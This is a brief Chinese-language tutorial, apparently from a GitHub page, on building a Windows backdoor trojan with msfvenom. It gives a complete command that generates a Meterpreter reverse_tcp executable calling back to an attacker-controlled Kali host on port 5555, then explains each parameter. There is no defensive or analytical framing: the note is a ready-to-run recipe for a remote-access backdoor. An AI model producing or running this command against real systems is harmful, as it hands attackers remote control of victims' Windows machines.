 # msfvenom制作windows后门木马

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=kali的ip lport=5555 -f exe >/root/evilshell.exe 
```

```
-p 参数后跟上payload（载体），攻击成功之后，要做什么事情 

lhost  后跟监听的IP 

lport  后跟监听的端口

-f  后跟要生成后门文件的类型
```

